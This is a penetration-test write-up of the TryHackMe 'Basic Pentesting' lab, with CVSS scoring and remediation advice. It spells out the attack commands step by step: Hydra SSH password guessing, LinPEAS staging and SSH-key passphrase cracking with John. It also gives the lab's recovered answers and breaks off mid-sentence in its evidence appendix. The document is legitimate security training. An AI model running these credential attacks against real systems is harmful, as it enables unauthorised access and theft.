

# Cybersecurity Case Study: Internal Network Penetration Testing & Lateral Movement

## 1. Project Overview

  -----------------------------------------------------------------------------------------------
  Item                                Details
  ----------------------------------- -----------------------------------------------------------
  **Project Title**                   Internal Network Penetration Testing & Lateral Movement
                                      Case Study

  **Lab Platform**                    TryHackMe

  **Room**                            [Basic
                                      Pentesting](https://tryhackme.com/room/basicpentestingjt)

  **Assessment Type**                 Internal Network Security Assessment

  **Objective**                       Identify exposed services, enumerate potential attack
                                      vectors, exploit credential weaknesses, perform lateral
                                      movement, and retrieve sensitive information in a
                                      controlled lab environment.

  **Target IP**                       `10.x.x.x` (anonymized)

  **Operating System**                Ubuntu 20.04.6 LTS (SSH login banner; see E-05)

  **Domain / Workgroup**              `WORKGROUP`

  **Scope**                           The assigned TryHackMe lab target only
  -----------------------------------------------------------------------------------------------

### Tools Used

-   Nmap
-   Gobuster
-   Enum4linux
-   Hydra
-   SSH
-   LinPEAS
-   John the Ripper
-   `ssh2john.py`
-   SCP

------------------------------------------------------------------------

### 1.1 Assessment and Observed Attack Flow

The diagram links the enumeration activities to the attack path documented
in Sections 2–4. Service and directory discovery supplied context; they
were not independently demonstrated exploits.



**Observed endpoint:** Access to `kay` and disclosure of the credential in
`pass.bak`. Root access, another compromised host, successful use of the
backup password, and service disruption were not demonstrated. Movement
between the two accounts is lateral account compromise on the same host.

------------------------------------------------------------------------

## 2. Reconnaissance and Enumeration

The reconnaissance phase focused on identifying network services,
exposed web directories, and potentially valid user accounts on the
target.

### 2.1 Port and Service Enumeration

A service-version scan was performed using Nmap to identify exposed
ports and running services.

**Command:**

``` bash
nmap -sV 10.x.x.x
```

**Identified services:**

  Port         Service   Version / Details
  ------------ --------- ---------------------
  `22/tcp`     SSH       OpenSSH 8.2p1
  `80/tcp`     HTTP      Apache 2.4.41
  `139/tcp`    SMB       Samba
  `445/tcp`    SMB       Samba
  `8009/tcp`   AJP       AJP13
  `8080/tcp`   HTTP      Apache Tomcat 9.0.7

**Finding:** Several services were exposed, providing multiple potential
enumeration and attack surfaces. SSH and SMB were selected for further
investigation, alongside the web service.

### 2.2 Web Directory Enumeration

Gobuster was used to discover accessible directories and potentially
hidden web content.

**Command:**

``` bash
gobuster dir -u http://10.x.x.x -w /usr/share/wordlists/dirb/common.txt
```

**Finding:**

-   Discovered `/development/`
-   HTTP status code: `301` (redirect)

The discovered directory was investigated for information that could
assist subsequent enumeration.

### 2.3 SMB Enumeration

Enum4linux was used to gather information from the SMB service,
including workgroup information and user enumeration.

**Command:**

``` bash
enum4linux -a 10.x.x.x
```

**Finding:**

The enumeration identified the following user accounts:

-   `jan`
-   `kay`
-   `ubuntu`

These usernames were used to guide subsequent credential testing.

------------------------------------------------------------------------

## 3. Initial Access

### 3.1 Vulnerability Identified

The SSH service allowed authentication using a weak password associated
with the account `jan`.

**Attack Vector:** Weak account credentials\
**Affected Service:** SSH (`22/tcp`)\
**Affected Account:** `jan`

### 3.2 Credential Testing

In the authorized lab environment, Hydra was used to test the identified
account against a password wordlist.

**Command:**

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.x.x.x
```

**Result:**

  Username   Password
  ---------- -----------
  `jan`      `armando`

The password was successfully identified during the lab exercise.

### 3.3 SSH Authentication

The credentials were then used to authenticate to the target over SSH.

**Command:**

``` bash
ssh jan@10.x.x.x
```

**Result:**

Successful authentication provided a shell under the `jan` account.

``` text
jan@ip-10-x-x-x:~$
```

**Security Impact:** An attacker able to reach the SSH service could
gain unauthorized access to a local user account through password
guessing if weak credentials were used.

------------------------------------------------------------------------

## 4. Post-Exploitation and Lateral Movement

After obtaining initial access, local enumeration was performed to
identify additional accounts, accessible files, and potential paths to
other users.

### 4.1 Local Account and File Enumeration

Local account information was reviewed to identify user accounts and
their home directories.

**Areas examined:**

-   `/etc/passwd`
-   `/home/jan`
-   `/home/kay`

The enumeration confirmed the presence of additional user profiles,
including `kay`.

### 4.2 LinPEAS Enumeration

LinPEAS was transferred to a temporary directory on the target for local
security enumeration.

**Transfer command:**

``` bash
scp linpeas.sh jan@10.x.x.x:/dev/shm/
```

The script was used to inspect local configuration, file permissions,
credentials, and potential privilege-escalation paths.

### 4.3 SSH Private Key Discovery

During local enumeration, an SSH private key belonging to the `kay`
account was discovered at:

``` text
/home/kay/.ssh/id_rsa
```

The key was readable from the compromised account, indicating inadequate
access restrictions on sensitive SSH authentication material.

**Finding:** The private key was accessible to an unauthorized local
user.

**Security Impact:** Exposure of a private SSH key can enable
unauthorized authentication to the associated account, particularly if
the key's passphrase is weak or can be recovered.

### 4.4 Private Key Passphrase Recovery

The SSH private key was converted into a format suitable for offline
password cracking using `ssh2john.py`.

**Command:**

``` bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

John the Ripper was then used to test candidate passphrases against the
converted hash.

**Command:**

``` bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result:**

  Item                   Result
  ---------------------- ----------------------------
  Target account         `kay`
  Credential type        SSH private key passphrase
  Recovered passphrase   `beeswax`

The passphrase was successfully recovered during the lab exercise.

### 4.5 Lateral Movement to the `kay` Account

The recovered private key and passphrase were used to authenticate as
`kay`.

**Command:**

``` bash
ssh -i kay_id_rsa kay@10.x.x.x
```

**Result:**

Authentication as the `kay` account was successful, demonstrating
lateral movement from the initially compromised `jan` account to another
local user account.

### 4.6 Sensitive File Retrieval

After accessing the `kay` account, a backup file named `pass.bak` was
located and read.

**Command:**

``` bash
cat pass.bak
```

**Recovered content:**

``` text
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Finding:** A sensitive credential was stored in a backup file in a
readable form.

**Security Impact:** Plain-text credential storage can expose passwords
to anyone who obtains access to the file or the account that can read
it.

------------------------------------------------------------------------

## 5. Findings and Risk Assessment

  -----------------------------------------------------------------------
  ID                Finding           Evidence          Priority
  ----------------- ----------------- ----------------- -----------------
  F-01              Weak SSH password Password for      High
                                      `jan` recovered   
                                      through wordlist  
                                      testing           

  F-02              Excessive access  `jan` could       High
                    to SSH private    access `kay`'s    
                    key               private key       

  F-03              Weak SSH key      Passphrase        High
                    passphrase        recovered through 
                                      offline cracking  

  F-04              Sensitive         `pass.bak`        High
                    credential stored contained a       
                    in backup file    password in       
                                      readable form     

  F-05              Multiple exposed  SSH, HTTP, SMB,   Informational;
                    network services  AJP, and Tomcat   review exposure
                                      services          and configuration
                                      identified        
  -----------------------------------------------------------------------

### Overall Risk

**Overall Assessment: High**

The combined weaknesses enabled an attacker to obtain initial access to
a user account, access another user's SSH authentication material, move
laterally to that account, and retrieve sensitive credentials.

The severity of individual findings may vary depending on the network
exposure, account privileges, credential reuse, and the sensitivity of
the recovered information.

------------------------------------------------------------------------

### 5.1 CWE Mapping and CVSS v3.1 Summary

The preceding table records qualitative remediation priorities. The
following table provides separate **analyst-assigned CVSS v3.1 Base
scores**, based on the report's evidence and the explicit assumptions
below. These are not vendor or NVD ratings. The original blanket High
priorities do not mean that every finding has a High CVSS severity.
F-05 is reassessed as an informational observation.

| ID | Primary CWE mapping | CVSS v3.1 Base vector | Score | Severity |
| --- | --- | --- | --- | --- |
| F-01 | CWE-521 — Weak Password Requirements, provisional policy mapping | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` | 6.5 | Medium |
| F-02 | CWE-732 — Incorrect Permission Assignment for Critical Resource | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N` | 3.3 | Low |
| F-03 | CWE-521 — Weak Password Requirements, provisional passphrase-policy mapping | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N` | 4.4 | Medium |
| F-04 | CWE-256 — Plaintext Storage of a Password | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N` | 3.3 | Low |
| F-05 | Not assigned: exposed services alone do not establish a specific weakness | Not scored | N/A | Informational |

**Scoring basis.** Base metrics describe each weakness at its own entry
point. F-02–F-04 require an existing local account in this assessment;
their scores do not inherit F-01's unauthenticated network entry. The
accounts are treated as ordinary users under one operating-system
security authority. Changing users alone does not establish Changed
Scope. Low confidentiality reflects the bounded information documented;
Low integrity for F-01/F-03 assumes normal write permissions of the
compromised account. No availability impact is established. These
assumptions should be revised if broader privileges or impacts are
confirmed. Method: FIRST CVSS v3.1 specification [1] and user guide [2].

### 5.2 F-01 — Weak SSH Password

**Evidence:** Sections 3.2–3.3 report wordlist recovery of `jan`'s password
and successful SSH authentication.

**CWE analysis:** CWE-521 [3] is a provisional mapping to insufficient
password-strength enforcement. The weak password is demonstrated, but
the effective SSH/PAM password-setting controls were not inspected.
The supplemental SMB output reports a minimum length of 5, disabled
complexity, and no lockout threshold (E-03); those SMB policy values do
not independently establish SSH/PAM enforcement. This is a lab configuration finding, not proof of a defect in
OpenSSH. Successful guessing alone does not establish CWE-307 (Improper
Restriction of Excessive Authentication Attempts); effective SSH lockout and throttling were not verified. E-04 now
records the credential-testing interval and connection errors, without
establishing the SSH service's complete attempt-restriction configuration.

| Metric | Value | Finding-specific rationale |
| --- | --- | --- |
| Attack Vector | Network (N) | SSH was reachable from the assessor's network. An internal address does not by itself make this Adjacent. |
| Attack Complexity | Low (L) | A common wordlist recovered the password without a documented race or exceptional prerequisite. |
| Privileges Required | None (N) | Knowing an enumerated username did not require an authenticated account. |
| User Interaction | None (N) | The account owner did not need to act. |
| Scope | Unchanged (U) | Access remained within the assessed host's operating-system authority. |
| Confidentiality | Low (L) | Access to ordinary user information is supported; host-wide disclosure is not established. |
| Integrity | Low (L) | The shell is assumed to permit changes to files owned by `jan`; no system-level write access was demonstrated. |
| Availability | None (N) | Disruption of a protected service or host was not established. |

**Result:** **6.5 — Medium**. High remediation priority remains reasonable
because this was the remotely reachable entry point to the observed
chain. If ordinary account write access is not accepted as a supported
assumption, the read-only alternative is
`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` (**5.3 — Medium**).

### 5.3 F-02 — Excessive Access to an SSH Private Key

**Evidence:** Section 4.3 reports that `jan` could read
`/home/kay/.ssh/id_rsa`. Section 4.4 establishes that the key was
passphrase-protected.

**CWE analysis:** CWE-732 [4] fits the reported cross-user read access to
a security-critical key. Numeric mode bits, ownership, ACLs, and parent
directory permissions were not captured, so the precise permission
mechanism remains unverified. The key was not reported to be plaintext;
its exposure and the weak passphrase are separate weaknesses.

| Metric | Value | Finding-specific rationale |
| --- | --- | --- |
| Attack Vector | Local (L) | Reading the key required access to the host's filesystem, even though the shell was reached over SSH. |
| Attack Complexity | Low (L) | The key was readable through ordinary local enumeration. |
| Privileges Required | Low (L) | An existing unprivileged account, `jan`, was required. |
| User Interaction | None (N) | `kay` did not need to participate. |
| Scope | Unchanged (U) | Both users were governed by the same host security authority. |
| Confidentiality | Low (L) | One encrypted private-key file was exposed; key decryption depends on F-03. |
| Integrity | None (N) | Write access to the key or another protected resource was not shown. |
| Availability | None (N) | Reading the key did not establish disruption. |

**Result:** **3.3 — Low** for the isolated encrypted-file disclosure.
Its operational priority is High in this lab because F-03 converted the
exposed key into usable authentication material. This score isolates
the read-permission weakness rather than counting the complete chain
again.

### 5.4 F-03 — Weak SSH Key Passphrase

**Evidence:** Sections 4.4–4.5 report recovery of the passphrase with a
wordlist and successful authentication as `kay` using the key.

**CWE analysis:** CWE-521 [3] is a provisional mapping for weak
passphrase strength. Passphrase policy enforcement was not inspected.
CWE-522 — Insufficiently Protected Credentials [5] describes the broader
credential-protection issue, but CWE-521 more directly expresses the
weak secret in this case. The evidence does not establish broken key
encryption or an SSH cryptographic implementation flaw.

| Metric | Value | Finding-specific rationale |
| --- | --- | --- |
| Attack Vector | Local (L) | The assessed route required obtaining a private-key artifact from the host before offline recovery. |
| Attack Complexity | Low (L) | The documented wordlist recovered this passphrase; using an offline cracking tool does not automatically imply High complexity. |
| Privileges Required | Low (L) | This target-specific route assumes the local `jan` access needed to obtain the key. A separately leaked key would require reassessment of this prerequisite. |
| User Interaction | None (N) | The key owner did not participate. |
| Scope | Unchanged (U) | Authentication as `kay` remained under the same host security authority. |
| Confidentiality | Low (L) | Access to `kay`'s files, including the backup credential, was demonstrated; broader disclosure was not established. |
| Integrity | Low (L) | Ordinary write access to `kay`'s own files is assumed from successful account access; administrator writes were not demonstrated. |
| Availability | None (N) | No service interruption was established. |

**Result:** **4.4 — Medium**, conditional on possession of the key through
the documented local route. F-02 and F-03 share a prerequisite and must
not be treated as independent probabilities or added together. With
read-only impact, the vector becomes
`CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`
(**3.3 — Low**).

### 5.5 F-04 — Plaintext Credential in a Backup File

**Evidence:** Section 4.6 reports reading the password string in
`pass.bak` after authenticating as `kay`.

**CWE analysis:** CWE-256 [6] is the specific mapping for plaintext
password storage. CWE-312 — Cleartext Storage of Sensitive Information
[7] is a broader related category. The report does not identify the
service or account associated with the password, confirm it was still
valid, or show that users other than `kay` could directly read this file.
Owner readability alone is not evidence of excessive file permissions.

| Metric | Value | Finding-specific rationale |
| --- | --- | --- |
| Attack Vector | Local (L) | The file was read from a local account session. |
| Attack Complexity | Low (L) | Reading the file required no decryption or further exploit. |
| Privileges Required | Low (L) | The demonstrated route required access as `kay`, treated as an ordinary user. |
| User Interaction | None (N) | No additional person needed to act. |
| Scope | Unchanged (U) | Disclosure occurred on the same host; no other security authority was compromised. |
| Confidentiality | Low (L) | One password string was disclosed, with no confirmed downstream access or privileged identity. |
| Integrity | None (N) | The stored password was not demonstrated to enable modification of another resource. |
| Availability | None (N) | No disruption was established. |

**Result:** **3.3 — Low**, a provisional score for bounded credential
disclosure after account compromise. This does not prove that `pass.bak`
provided an additional privilege boundary bypass. Validate the password's
purpose and validity before claiming account takeover, root access, or
High confidentiality impact. Remove the plaintext secret and rotate it
regardless of whether reuse is confirmed.

### 5.6 F-05 — Exposed Services: Informational Observation

**Evidence:** Section 2.1 lists reachable SSH, HTTP, SMB, AJP, and Tomcat
services. No exploit of AJP or Tomcat, unnecessary-service determination,
or firewall-policy violation is documented.

**CWE:** Not assigned. Open ports and version banners do not, on their
own, identify a particular software weakness. Do not infer a CVE solely
from a reported banner without confirming the affected build,
configuration, and applicability.

**CVSS v3.1:** **Not scored (N/A)**. There is no established vulnerability
with a defensible set of impact metrics. N/A is distinct from a scored
vulnerability with a 0.0 Base score. Retain this observation for service
inventory, hardening, and further validation.

### 5.7 Combined Attack Path and Overall Risk

The demonstrated chain was **F-01 → F-02 → F-03 → F-04**: remote access
as `jan`, exposure of `kay`'s encrypted key, recovery of its weak
passphrase, and access to the plaintext backup credential as `kay`.

The report's **High overall qualitative assessment** is retained because
multiple controls failed in sequence and another account was compromised.
It is an assessment of remediation urgency and the demonstrated chain,
not an arithmetic total or a High CVSS Base rating. Individual CVSS
scores must not be added or averaged. A separate chained vector can be
constructed with explicit assumptions under FIRST's guidance [2]; none
is asserted here because the backup credential's downstream impact is
unverified.

Prioritize replacing `jan`'s weak credentials, revoking the exposed key,
correcting cross-user permissions, and removing and rotating the backup
secret. The diagram shows the verified endpoint; root compromise,
cross-host movement, credential reuse, and denial of service remain
unverified.

### 5.8 Analysis References

CWE mappings classify the reported weaknesses; they do not establish a
product CVE. References were consulted on 22 November 2026.

1. FIRST — [CVSS v3.1 Specification Document](https://www.first.org/cvss/v3.1/specification-document).
2. FIRST — [CVSS v3.1 User Guide](https://www.first.org/cvss/v3.1/user-guide), including vulnerability chaining.
3. MITRE — [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html).
4. MITRE — [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html).
5. MITRE — [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html).
6. MITRE — [CWE-256: Plaintext Storage of a Password](https://cwe.mitre.org/data/definitions/256.html).
7. MITRE — [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html).

------------------------------------------------------------------------

## 6. Remediation Recommendations

### 6.1 Enforce Strong Authentication

-   Enforce strong, unique passwords for all local accounts.
-   Block common and dictionary-based passwords.
-   Configure SSH to use key-based authentication where appropriate.
-   Disable password-based SSH authentication when operationally
    feasible and after validating key-based access.
-   Implement rate limiting and monitoring for repeated authentication
    failures.

### 6.2 Secure SSH Private Keys

-   Restrict private key permissions to the owning user (typically
    `600`).
-   Ensure SSH directories have appropriate permissions (typically
    `700`).
-   Prevent other local users from reading private keys.
-   Protect private keys with strong, unique passphrases.
-   Rotate any key that may have been exposed.

### 6.3 Apply the Principle of Least Privilege

-   Restrict access to user home directories and sensitive files.
-   Review ownership and permissions across `/home`.
-   Prevent users from accessing files belonging to other accounts
    unless explicitly required.
-   Audit sudo privileges and other account-level permissions.

### 6.4 Secure Credential Storage

-   Do not store passwords in plain-text backup files.
-   Remove exposed credentials from files, backups, and repositories.
-   Use an approved secrets-management solution where applicable.
-   Rotate credentials that were exposed or potentially compromised.
-   Ensure backup files have appropriate ownership, permissions, and
    encryption.

### 6.5 Reduce Network Attack Surface

-   Disable unused network services.
-   Restrict service access using firewall rules and network
    segmentation.
-   Review the security configuration of SMB, AJP, Tomcat, HTTP, and
    SSH.
-   Keep exposed services and operating system packages patched.
-   Monitor network traffic and authentication logs for suspicious
    activity.

------------------------------------------------------------------------

## 7. Lessons Learned

This assessment demonstrated how several seemingly separate weaknesses
can be combined into a successful attack path.

1.  **Reconnaissance is essential:** Service discovery and user
    enumeration provided information that narrowed the scope of
    subsequent testing.
2.  **Weak credentials create an initial foothold:** A weak SSH password
    enabled access to the target.
3.  **Local file permissions matter:** Improper access to another user's
    private key enabled credential compromise.
4.  **Offline cracking can expose weak passphrases:** A recovered
    private key is especially dangerous when its passphrase is weak.
5.  **Lateral movement increases the impact:** Access to a second
    account expanded the attacker's access to sensitive information.
6.  **Credential hygiene is critical:** Plain-text passwords in backup
    files can undermine otherwise strong authentication controls.

------------------------------------------------------------------------

## 8. Conclusion

The internal network penetration testing lab identified multiple
weaknesses involving exposed services, weak authentication, improper
file permissions, SSH key security, and sensitive credential storage.

Initial access was obtained through the compromised SSH credentials of
the `jan` account. Further enumeration uncovered an SSH private key
associated with `kay`, and its weak passphrase was recovered through
offline cracking. This enabled lateral movement to the `kay` account,
where a sensitive backup credential was found.

The assessment highlights the importance of strong authentication,
secure handling of private keys, proper file permissions,
least-privilege access, and secure credential storage. Addressing these
weaknesses would reduce the likelihood of initial compromise and limit
an attacker's ability to move laterally within an internal environment.

------------------------------------------------------------------------

## 9. Evidence Checklist

Attach screenshots or terminal output for the following evidence where
available:

-   [x] Nmap service scan results — E-01
-   [x] Gobuster directory enumeration results — E-02
-   [x] Enum4linux user enumeration results — E-03
-   [x] Hydra result showing the recovered lab credential — E-04
-   [x] Successful SSH login as `jan` — E-05
-   [ ] LinPEAS output identifying relevant findings — transfer recorded in E-07; execution/results absent
-   [ ] Discovery of the `kay` SSH private key — source read and permission output absent; see E-07/E-08
-   [ ] `ssh2john.py` conversion output — command captured in E-08; generated hash contents not included
-   [x] John the Ripper passphrase recovery output — E-08
-   [x] SSH key-authentication command for `kay` and accepted login banner — E-09 (no post-login identity command captured)
-   [ ] `pass.bak` file discovery and contents — command only in E-10; returned contents absent

> **Disclaimer:** This assessment was conducted within the authorized
> TryHackMe Basic Pentesting lab environment. The target IP and
> identifying information are anonymized in the main narrative; the
> supplemental terminal evidence retains the assigned private lab IP. The techniques and
> results documented here are for educational and authorized security
> testing purposes only.


------------------------------------------------------------------------

## 10. Additional Evidence: Terminal Session Documentation

### 10.1 Evidence Source and Scope

This section organizes the additional terminal notes into a reproducible
record supporting Sections 2–5. The supplied text is treated as an
assessor-provided transcript, not as independently recollected output.
Commands and observations are separated from interpretation. The full
supplied record is retained in Section 11, including warnings, errors,
informal notes, and gaps.

| Item | Recorded details |
| --- | --- |
| Source | `Pasted text(6).txt` |
| Assessment date | 22 November 2026 |
| Assigned lab target | `10.48.137.87`, corresponding to `10.x.x.x` in the main narrative |
| Host/workgroup | `BASIC2` / `WORKGROUP`, reported by Enum4linux |
| Assessor environment | Kali Linux terminal; local working directory `~/basic_pentest` |
| Target OS evidence | SSH welcome banner reports Ubuntu 20.04.6 LTS, kernel `5.15.0-139-generic x86_64` |
| Time handling | Nmap explicitly records `+0700`; target login banners report EST. Other tool times are reproduced as recorded without assuming synchronized clocks. |
| Source SHA-256 | `587ec679c301e70b0360340f51785c59f21ffe56fc5fa40c700969d1dd83654e` |

The hash identifies the exact uploaded source bytes, including their
original line endings. The embedded transcript uses normalized line
endings for Markdown readability; it is not presented as a byte-identical
copy. No additional commands were executed against the target while
preparing this report.

### 10.2 Evidence Register

| ID | Activity | Evidence captured | Report linkage |
| --- | --- | --- | --- |
| E-01 | Service discovery | Nmap service versions, six open TCP ports, host response | Section 2.1; F-05 inventory |
| E-02 | Web directory discovery | Gobuster results including `/development/` redirect | Section 2.2 |
| E-03 | SMB enumeration | Anonymous session, share listing, policy output, RID-based user discovery | Section 2.3; context for F-01 |
| E-04 | SSH password guessing | Hydra recovery of `jan` / `armando`, timestamps, warnings and errors | Section 3.2; F-01 |
| E-05 | Initial authenticated access | SSH login banner and `jan` shell prompt | Section 3.3; F-01 |
| E-06 | Local account enumeration | `/etc/passwd` output and traversal into `/home/kay` as `jan` | Section 4.1; partial context for F-02 |
| E-07 | Enumeration tool staging | SCP command, transfer record, change to `/dev/shm` | Section 4.2; no LinPEAS results captured |
| E-08 | Key passphrase recovery | Hash-conversion command and John recovery of `beeswax` | Section 4.4; F-03 |
| E-09 | Authentication targeting `kay` | Key-based SSH command, passphrase prompt, Ubuntu welcome banner | Section 4.5; F-03; post-login identity not captured |
| E-10 | Backup-file read command | `cat pass.bak` text only, without returned contents | Section 4.6; F-04 remains unsupported by this supplemental output alone |

### 10.3 E-01 — Port and Service Enumeration

**Objective:** Identify reachable services on the assigned lab host.

**Recorded command:**

```bash
nmap -sV 10.48.137.87
```

**Result:** Nmap 7.99 reported the host as reachable with approximately
0.17 seconds latency. The scan completed in 16.60 seconds and reported
994 closed TCP ports in addition to the six open ports below.

| Port | Reported service | Version/banner |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13; SSH protocol 2.0 |
| 80/tcp | HTTP | Apache httpd 2.4.41, Ubuntu |
| 139/tcp | NetBIOS/SMB | Samba smbd 4 |
| 445/tcp | SMB | Samba smbd 4 |
| 8009/tcp | AJP | Apache Jserv, protocol 1.3 |
| 8080/tcp | HTTP | Apache Tomcat 9.0.7 |

**Interpretation:** SSH, SMB, and HTTP supplied the subsequent assessment
entry points. This was not an all-port scan; the record does not establish
the state of every TCP or UDP port. Version banners support inventory,
not confirmation of an exploitable product CVE.

### 10.4 E-02 — Web Directory Enumeration

**Recorded command:**

```bash
gobuster dir -u http://10.48.137.87 -w /usr/share/wordlists/dirb/common.txt
```

**Result:** Gobuster 3.8.2 completed the displayed wordlist progress
(`4613 / 4613`).

| Path | HTTP status | Recorded result |
| --- | --- | --- |
| `/development` | 301 | Redirect to `http://10.48.137.87/development/` |
| `/index.html` | 200 | Response size 158 bytes |
| `/.hta`, `/.htaccess`, `/.htpasswd` | 403 | Each response size 277 bytes |
| `/server-status` | 403 | Response size 277 bytes |

**Interpretation:** The hidden directory answer is `development`. Its
contents are not captured in this transcript. Forbidden responses do not
prove that the corresponding files exist or that their contents were
exposed.

### 10.5 E-03 — SMB Enumeration and Account Discovery

**Recorded command:**

```bash
enum4linux -a 10.48.137.87 | tee enum.log
```

**Result:** Enum4linux 0.9.1 reported successful sessions with a blank
username and password, the host name `BASIC2`, and workgroup `WORKGROUP`.
The server information identified `Samba Server 4.15.13-Ubuntu`.

| Observation | Recorded value |
| --- | --- |
| `Anonymous` share | Mapping: OK; Listing: OK; Writing: N/A |
| `IPC$` share | Listed; subsequent mapping/listing did not succeed |
| Minimum password length | 5 |
| Password complexity | Disabled |
| Password history length | None |
| Account lockout threshold | None |
| Reset account lockout counter / locked duration | 30 minutes / 30 minutes |
| RID 1000 | `Unix User\kay` |
| RID 1001 | `Unix User\jan` |
| RID 1002 | `Unix User\ubuntu` |

**Interpretation:** Anonymous enumeration disclosed account names that
could guide targeted credential testing. The policy output indicates
weak SMB-reported controls, but does not prove identical SSH/PAM policy
or behavior. Anonymous share write access was not demonstrated.

**Tool limitations:** The initial user-listing stage produced Perl
warnings. SMB1 workgroup-listing negotiation also failed. Later
RID-cycling output nevertheless returned the three users above. The
SMB-reported `os version: 6.1` is not treated as a verified Ubuntu release;
the SSH banner provides the more direct operating-system evidence.

### 10.6 E-04 — SSH Credential Recovery

**Recorded command:**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.48.137.87
```

**Recorded result excerpt:**

```text
[22][ssh] host: 10.48.137.87   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```

Hydra recorded a start time of `15:58:45` and finish time of `16:05:21`
on 22 November 2026, an elapsed interval of 6 minutes 36 seconds on its
recorded clock. It configured up to 16 tasks and a wordlist search space
of 14,344,399 candidate combinations. This number is not evidence that
all candidates were attempted.

**Interpretation:** The result supports F-01 and is corroborated by the
subsequent successful SSH session in E-05.

**Tool limitations:** Hydra warned about SSH parallelism, unfinished
worker threads, and seven connection/resolution errors. These messages
are preserved in Section 11; they do not invalidate the credential that
was subsequently used successfully. The record does not establish
whether rate limiting or lockout applied under other conditions.

### 10.7 E-05 — Initial SSH Access as `jan`

**Recorded command:**

```bash
ssh jan@10.48.137.87
```

**Recorded result excerpts:**

```text
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
```

```text
jan@ip-10-48-137-87:~$
```

**Interpretation:** The welcome banner and account-specific prompt
support successful interactive access as `jan`. The banner additionally
reports the target's OS release and kernel. The host-key confirmation
and post-quantum key-exchange warning are session messages; this report
does not treat them as separate demonstrated vulnerabilities.

### 10.8 E-06 — Local Account and Home Directory Enumeration

**Recorded command:**

```bash
cat /etc/passwd
```

**Relevant recorded entries:**

```text
kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
jan:x:1001:1001::/home/jan:/bin/bash
ubuntu:x:1002:1002:Ubuntu:/home/ubuntu:/bin/bash
```

The file also lists service accounts, including `sshd`, `tomcat9`, and
`www-data`. The `x` field does not disclose the account's plaintext
password or password hash in this output. Reading `/etc/passwd` is local
account enumeration, not password recovery by itself.

**Recorded directory traversal:**

```text
jan@ip-10-48-137-87:~$ cd ..
jan@ip-10-48-137-87:/home$ cd kay
jan@ip-10-48-137-87:/home/kay$
```

**Interpretation:** `jan` could enter `/home/kay`, while the prompt still
identified the session as `jan`. Directory traversal is not a user
switch and does not alone prove read access to `.ssh/id_rsa`. This is
partial context for F-02; the specific key-read and permission output
remain absent from the supplemental record.

### 10.9 E-07 — LinPEAS Transfer and Staging

**Recorded command:**

```bash
scp ~/basic_pentest/linpeas.sh jan@10.48.137.87:/dev/shm/
```

The supplied notes include an authentication prompt and a `linpeas.sh`
transfer line, followed by:

```text
jan@ip-10-48-137-87:/home/kay$ cd /dev/shm
jan@ip-10-48-137-87:/dev/shm$
```

**Interpretation:** The record documents tool staging and navigation to
the staging directory. It contains no LinPEAS execution command,
completion status, findings, or private-key discovery output. The
original report's LinPEAS narrative is therefore not independently
corroborated by this supplemental transcript.

### 10.10 E-08 — Offline SSH Key Passphrase Recovery

The notes refer to saving a local key file as `kay_id_rsa`. They do not
capture its full contents, the source-file read, or its original file
permissions.

**Recorded commands:**

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
john forjohn.txt
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Recorded result excerpt:**

```text
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
```

```text
beeswax          (kay_id_rsa)
```

The detailed run reports `1g`, `DONE`, and `Session completed`, with a
recorded completion timestamp of `2026-11-22 16:53`.

**Interpretation:** The output supports recovery of the passphrase
`beeswax` for the supplied local key file, corroborating F-03. It also
shows that John loaded a compatible key-derived hash. It does not
independently establish how the key was acquired from the target or
which filesystem permissions allowed access.

### 10.11 E-09 — SSH Authentication Targeting `kay`

**Recorded command:**

```bash
ssh -i kay_id_rsa kay@10.48.137.87
```

**Recorded result excerpts:**

```text
Enter passphrase for key 'kay_id_rsa':
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
```

**Interpretation:** The command explicitly targets `kay`, and the
